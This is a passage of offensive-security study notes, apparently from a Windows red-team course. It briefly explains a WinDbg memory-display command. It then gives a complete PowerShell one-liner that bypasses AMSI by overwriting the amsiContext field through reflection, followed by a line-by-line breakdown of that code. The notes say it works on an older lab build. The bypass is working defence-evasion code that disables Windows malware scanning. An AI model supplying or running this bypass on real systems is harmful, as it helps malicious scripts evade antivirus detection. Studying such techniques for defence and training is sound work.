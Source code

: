 2. **`rcx`**: This is the register whose value is used as the starting address for the memory display. `rcx` is one of the general-purpose registers in x86-64 architecture.

3. **`L1`**: This specifies the length of the display. `L1` means to display 1 DWORD (4 bytes) of memory starting from the address in `rcx`.

So, the command `dc rcx L1` in WinDbg displays 4 bytes of memory starting at the address stored in the `rcx` register.

In the above image, the contents of AMSI Header value was overwritten.

#### 7.3.1.3 Bypassing AMSI by modifying amsiContext field

*Note:* This works on the lab Windows 10 (build 17763), but fails with current versions
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```


### Step-by-Step Breakdown:

1. **Retrieve All Types in the Assembly**:
   ```powershell
   $a=[Ref].Assembly.GetTypes();
   ```
   This line gets all types from the current assembly that the PowerShell script is running in. It does this by calling `GetTypes()` on the assembly retrieved from `[Ref].Assembly`. The `Ref` keyword is used as a placeholder for reflection-based actions, though it may not point to the correct assembly directly unless specified.

2. **Iterate Through Types and Find a Type Whose Name Matches `*iUtils`**:
   ```powershell
   Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};
   ```
   This loop iterates through all the types retrieved from the assembly (`$a`), checking if the type's name contains the string `"iUtils"`. If a match is found, it stores the type information in the `$c` variable.

3. **Get All Non-Public, Static Fields of the Matched Type**:
   ```powershell
   $d=$c.GetFields('NonPublic,Static');
   ```
   Once the type is found (`$c`), this line retrieves all fields that are non-public and static (usually private or protected static fields). This method call is using reflection to access fields that wouldn't normally be accessible in standard code execution.

4. **Iterate Through Fields and Find One Whose Name Matches `*Context`**:
   ```powershell
   Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};
   ```
   This loop goes through the fields found in the previous step (`$d`), looking for one with a name that contains the string `"Context"`. The field that matches is stored in the `$f` variable.

5. **Get the Value of the Context Field**:
   ```powershell
   $g=$f.GetValue($null);
   ```
   This uses reflection again to get the value of the matched field (`$f`). The `$null` argument is passed because the field is static, meaning it doesn't belong to an instance of a class. The field value (`$g`) is expected to hold some important data, which could be an object, a pointer, or some application context.
